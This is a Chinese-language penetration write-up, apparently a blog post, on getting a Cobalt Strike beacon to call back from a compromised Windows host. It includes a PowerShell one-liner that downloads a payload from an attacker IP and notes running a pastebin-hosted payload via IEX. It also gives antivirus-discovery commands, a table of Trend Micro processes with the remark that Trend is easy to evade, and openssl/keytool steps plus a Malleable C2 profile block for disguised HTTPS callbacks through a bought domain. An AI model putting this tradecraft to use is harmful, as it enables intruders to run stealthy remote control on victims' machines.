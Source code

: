![title](https://leanote.com/api/file/getImage?fileId=5efbf681ab64411c28000490)

```
powershell.exe -nop "((new-object net.webclient).downloadstring('http://47.52.x.x:443/a'))" 
```

发现 powershell payload 都没下载成功，因为我使用的端口已经是 443，所以排除了放行端口的问题。但是把 payload 托管到 pastebin 网站上，IEX 执行可以正常上线，但是上线之后的 shell，无法执行命令，仅有心跳。所以猜测 http 通信遭到了拦截。


## AV 探测

- `net start`
- `C:\>tasklist /svc`

|系统进程|	杀软名称|
| :--: | :--: |
|TMBMSRV.exe	|趋势杀毒|
|ntrtscan.exe	|趋势反病毒应用程序|
|NTRTSCAN.exe	|趋势科技|
|PCCNTMON.exe|	PC-cillin|
|TMLISTEN.exe|	趋势科技|

所以这台机器上有趋势。得知是趋势，那么就不太担心了，毕竟趋势相对挺好过的。

## 合法证书 + Powershell 域名 https 上线


**获取 SSL 证书**

先购买一个用于上线的域名，然后用域名申请一个 SSL 证书。我就使用 https://freessl.cn/ 用我的 `spoofdomain.com` 域名申请好了证书。
> 可参考：[3分钟搞定从申请ssl证书到域名服务器配置](https://segmentfault.com/a/1190000019798737)



**创建一个 keystore**

将 ssl 证书上传到 CS 团队服务器，使用以下命令为 CS 生成 keystore：

```
openssl pkcs12 -export -in fullchain.pem -inkey privkey.pem -out spoofdomain.p12 -name spoofdomain.com -passout pass:mypass
keytool -importkeystore -deststorepass mypass -destkeypass mypass -destkeystore spoofdomain.store -srckeystore spoofdomain.p12 -srcstoretype PKCS12 -srcstorepass mypass -alias spoofdomain.com
```


**Malleable C2 profile**


将 keystore 加入 Malleable C2 profile 中：

```
https-certificate {
    set keystore "spoofdomain.store";
    set password "mypass";
}
```
